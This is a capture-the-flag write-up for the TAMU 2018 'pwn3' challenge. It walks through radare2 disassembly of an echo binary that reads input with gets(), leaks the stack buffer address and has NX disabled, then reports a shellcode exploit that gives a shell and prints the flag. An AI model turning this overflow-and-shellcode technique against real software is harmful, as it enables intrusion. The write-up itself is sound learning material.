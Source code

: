 
# pwn3 write-up

remote server found at `nc pwn.ctf.tamu.edu 4323`.

----
The binary output includes a "random" value that looks interesting: `Your random number 0xffcfd99a!`

By examining the binary using radare2 with a small radare2 profile file, see profile.rr2, it is easier to examine automate the stdin from a file called ./stdin.


vagrant@ctf-tools:~/ctf/tamu18/pwn3$ r2 -e dbg.profile=profile.rr2
```python
[0x080483d0]> aaaa
[0x080483d0]> i~arch,canary,nx,pic,relro
arch     x86
canary   false
nx       false
pic      false
relro    partial

[0x080483d0]> ood
Process with PID 4101 started...
File dbg:///home/vagrant/ctf/tamu18/pwn3/pwn3  reopened in read-write mode
= attach 4101 4101
4101

[0xf76fe030]> dcu main
Continue until 0x08048522 using 1 bpsize
hit breakpoint at: 8048522

[0x08048522]> pdf
            ;-- main:
            ;-- eip:
┌ (fcn) sym.main 87
│   sym.main ();
│           ; var int local_4h_2 @ ebp-0x4
│           ; var int local_4h @ esp+0x4
│           ; DATA XREF from 0x080483e7 (entry0)
│           ; DATA XREF from 0x000003e7 (sub.__gmon_start_3c0 + 39)
│           0x08048522      8d4c2404       ecx = [local_4h]            ; 4
│           0x08048526      83e4f0         esp &= 0xfffffff0
│           0x08048529      ff71fc         push dword [ecx - 4]
│           0x0804852c      55             push ebp
│           0x0804852d      89e5           ebp = esp
│           0x0804852f      51             push ecx
│           0x08048530      83ec04         esp -= 4
│           0x08048533      a128a00408     eax = dword sym.stdout      ; obj.stdout ; [0x804a028:4]=0xf7794ac0
│           0x08048538      6a00           push 0
│           0x0804853a      6a00           push 0
│           0x0804853c      6a02           push 2                      ; 2 ; size_t size
│           0x0804853e      50             push eax                    ; int mode
│           0x0804853f      e86cfeffff     sym.imp.setvbuf ()          ; int setvbuf(FILE*stream, char*buf, int mode, size_t size)
│           0x08048544      83c410         esp += 0x10
│           0x08048547      83ec0c         esp -= 0xc
│           0x0804854a      6834860408     push str.Welcome_to_the_New_Echo_application_2.0 ; 0x8048634 ; "Welcome to the New Echo application 2.0!" ; const char * s
│           0x0804854f      e83cfeffff     sym.imp.puts ()             ; int puts(const char *s)
│           0x08048554      83c410         esp += 0x10
│           0x08048557      83ec0c         esp -= 0xc
│           0x0804855a      6860860408     push str.Changelog:____Less_deprecated_flag_printing_functions_____New_Random_Number_Generator ; 0x8048660 ; "Changelog:\n- Less deprecated flag printing functions!\n- New Random Number Generator!\n" ; const char * s
│           0x0804855f      e82cfeffff     sym.imp.puts ()             ; int puts(const char *s)
│           0x08048564      83c410         esp += 0x10
│           0x08048567      e85fffffff     sym.echo ()
│           0x0804856c      b800000000     eax = 0
│           0x08048571      8b4dfc         ecx = dword [local_4h_2]
│           0x08048574      c9             leave 
│           0x08048575      8d61fc         esp = [ecx - 4]
└           0x08048578      c3             return
```

Function call at 0x08048567 looks interesting to sym.echo().

[0x08048522]> dcu sym.echo
Continue until 0x080484cb using 1 bpsize
Welcome to the New Echo application 2.0!
Changelog:
- Less deprecated flag printing functions!
- New Random Number Generator!

hit breakpoint at: 80484cb

[0x080484cb]> pdf
            ;-- eip:
┌ (fcn) sym.echo 87
│   sym.echo ();
│           ; var int local_eeh @ ebp-0xee
│           ; CALL XREF from 0x08048567 (sym.main)
│           0x080484cb      55             push ebp
│           0x080484cc      89e5           ebp = esp
│           0x080484ce      81ecf8000000   esp -= 0xf8
│           0x080484d4      83ec08         esp -= 8
│           0x080484d7      8d8512ffffff   eax = [local_eeh]
│           0x080484dd      50             push eax
│           0x080484de      6800860408     push str.Your_random_number__p ; 0x8048600 ; "Your random number %p!\n" ; const char * format
│           0x080484e3      e888feffff     sym.imp.printf ()           ; int printf(const char *format)
│           0x080484e8      83c410         esp += 0x10
│           0x080484eb      83ec0c         esp -= 0xc
│           0x080484ee      6818860408     push str.Now_what_should_I_echo ; 0x8048618 ; "Now what should I echo? " ; const char * format
│           0x080484f3      e878feffff     sym.imp.printf ()           ; int printf(const char *format)
│           0x080484f8      83c410         esp += 0x10
│           0x080484fb      83ec0c         esp -= 0xc
│           0x080484fe      8d8512ffffff   eax = [local_eeh]
│           0x08048504      50             push eax                    ; char *s
│           0x08048505      e876feffff     sym.imp.gets ()             ; char*gets(char *s)
│           0x0804850a      83c410         esp += 0x10
│           0x0804850d      83ec0c         esp -= 0xc
│           0x08048510      8d8512ffffff   eax = [local_eeh]
│           0x08048516      50             push eax                    ; const char * s
│           0x08048517      e874feffff     sym.imp.puts ()             ; int puts(const char *s)
│           0x0804851c      83c410         esp += 0x10
│           0x0804851f      90             
│           0x08048520      c9             leave 
└           0x08048521      c3             return

sym.echo() contains a local variable (local_eeh) that is used in gets, shown at 0x080484fe, and later printed using puts, shown at 0x08048517.
The size is 0xee (238).

We rename it to input:
[0x080484cb]> afvn local_eeh input
[0x080484cb]> afvd
var input = 0xffd6fd1a  0x08d60000  ....

[0x080484cb]> pdf
...
│           0x080484d7      8d8512ffffff   eax = [input]
...
│           0x080484fe      8d8512ffffff   eax = [input]
│           0x08048504      50             push eax                    ; char *s
│           0x08048505      e876feffff     sym.imp.gets ()             ; char*gets(char *s)
│           0x0804850a      83c410         esp += 0x10
│           0x0804850d      83ec0c         esp -= 0xc
│           0x08048510      8d8512ffffff   eax = [input]
│           0x08048516      50             push eax                    ; const char * s
│           0x08048517      e874feffff     sym.imp.puts ()             ; int puts(const char *s)
│           0x0804851c      83c410         esp += 0x10
│           0x0804851f      90
│           0x08048520      c9             leave 
└           0x08048521      c3             return

I created a pattern of length 300 using  `ragg2 -P 300 -r > stdin` and reopened the binary file.
Now I execute the binary until right after gets, at 0x0804850a.

[0x080484cb]> dcu 0x0804850a
Continue until 0x0804850a using 1 bpsize
Your random number 0xfff27efa!
Now what should I echo? hit breakpoint at: 804850a

[0x080484cb]> afvd
var input = 0xfff27efa  0x42414141  AAAB @eax ascii

How nice of them, the "random" number is the address at the stack to the local input variable.
Since the binary do not use NX security mechanisms and the buffer I created the pwnx.py, targeting a shellcode that execute on the stack.

(ctftools)vagrant@ctf-tools:~/ctf/tamu18/pwn3$ ./pwnx.py 
[*] '/home/vagrant/ctf/tamu18/pwn3/pwn3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
$ ls
flag.txt
pwn3
$ cat flag.txt
gigem{n0w_w3_4r3_g377in6_s74r73d}
